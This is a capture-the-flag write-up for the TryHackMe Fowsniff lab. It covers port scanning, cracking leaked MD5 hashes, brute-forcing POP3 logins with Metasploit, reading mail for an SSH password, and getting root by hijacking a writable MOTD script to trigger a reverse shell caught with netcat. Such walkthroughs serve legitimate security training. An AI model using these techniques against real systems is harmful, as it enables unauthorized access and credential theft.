

# Fowsniff CTF

**Date:** 17, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/ctf) to go to the TryHackMe room.


## Nmap Scan

```bash
$ nmap -sC -sV -p- 10.10.34.85 -oN nmap.out
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-17 14:07 IST
Nmap scan report for 10.10.34.85
Host is up (0.16s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) TOP PIPELINING CAPA AUTH-RESP-CODE RESP-CODES UIDL USER
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: more OK ID post-login IMAP4rev1 have listed capabilities Pre-login AUTH=PLAINA0001 LOGIN-REFERRALS LITERAL+ IDLE ENABLE SASL-IR
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 594.03 seconds
```

---

## Information from open ports

### Port 80



---

## Public Information

- Twitter Profile Pwned - `https://twitter.com/fowsniffcorp`
- Password dumps - `https://pastebin.com/NrAqVeeX`

```bash
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```

- `Stone` is the sysadmin

---

## Cracked hashes

```bash
$ john --format=RAW-MD5 md5hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 9 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
scoobydoo2       (?)
orlando12        (?)
apples01         (?)
skyler22         (?)
mailcall         (?)
07011972         (?)
carp4ever        (?)
bilbo101         (?)
8g 0:00:00:01 DONE (2021-06-17 14:20) 4.081g/s 7318Kp/s 7318Kc/s 18715KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

---

## POP3 Login

- Bruteforce using metasploit:

```bash
msf6 > use auxiliary/scanner/pop3/pop3_login
msf6 auxiliary(scanner/pop3/pop3_login) > options

Module options (auxiliary/scanner/pop3/pop3_login):

   Name              Current Setting                          Required  Description
   ----              ---------------                          --------  -----------
   BLANK_PASSWORDS   false                                    no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                        yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                    no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                    no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                    no        Add all users in the current database to the list
   PASSWORD                                                   no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wo  no        The file that contains a list of probable passwords.
                     rdlists/unix_passwords.txt
   RHOSTS                                                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'f
                                                                        ile:<path>'
   RPORT             110                                      yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                    yes       Stop guessing when a credential works for a host
   THREADS           1                                        yes       The number of concurrent threads (max one per host)
   USERNAME                                                   no        A specific username to authenticate as
   USERPASS_FILE                                              no        File containing users and passwords separated by space, one pair per li
                                                                        ne
   USER_AS_PASS      false                                    no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wo  no        The file that contains a list of probable users accounts.
                     rdlists/unix_users.txt
   VERBOSE           true                                     yes       Whether to print output for all attempts

msf6 auxiliary(scanner/pop3/pop3_login) > set PASS_FILE pass.txt
PASS_FILE => pass.txt
msf6 auxiliary(scanner/pop3/pop3_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf6 auxiliary(scanner/pop3/pop3_login) > set RHOSTS 10.10.34.85
RHOSTS => 10.10.34.85
msf6 auxiliary(scanner/pop3/pop3_login) > exploit

[..snip..]
[+] 10.10.34.85:110       - 10.10.34.85:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
[..snip..]
```

### What was seina's password to the email service?
- **Answer:** scoobydoo2

---

## Email Information

```bash
$ telnet 10.10.34.85 110
Trying 10.10.34.85...
Connected to 10.10.34.85.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2

+OK Logged in.
-ERR Unknown command: 
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone


.
RETR 2
+OK 1280 octets
Return-Path: <baksteen@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1004)
        id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.
```


### Looking through her emails, what was a temporary password set for her?
- **Answer:** S1ck3nBluff+secureshell

---

## SSH

### In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.
- **SSH Credentials:** baksteen:S1ck3nBluff+secureshell


### Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?
- **Answer:** cube.sh
- **Steps to Reproduce:** 

```bash
baksteen@fowsniff:~$ find  / -group users 2>/dev/null
/opt/cube/cube.sh
/run/user/1004
/run/user/1004/systemd
/run/user/1004/systemd/private
/run/user/1004/systemd/notify
/home/baksteen/.cache
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir
/home/baksteen/Maildir/tmp
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/cur
/home/baksteen/Maildir/new
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
/home/baksteen/.viminfo
/home/baksteen/.bash_history
/home/baksteen/.lesshsQ
/home/baksteen/.bash_logout
/home/baksteen/term.txt
[..snip..]
```

---

## Root Access

- The `cube.sh` is run when the shell opens up as root!
- We can put a reverse shell in  `cube.sh` to get root access!

```bash
baksteen@fowsniff:~$ cat /etc/update-motd.d/00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

#[ -r /etc/lsb-release ] && . /etc/lsb-release

#if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
#       # Fall back to using the very slow lsb_release utility
#       DISTRIB_DESCRIPTION=$(lsb_release -s -d)
#fi

#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh
```


- On reconnecting using ssh, we can get a root shell using netcat:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...

connect to [10.17.7.91] from (UNKNOWN) [10.10.34.85] 40414
/bin/sh: 0: can't access tty; job control turned off

# whoami
root
# 

```

---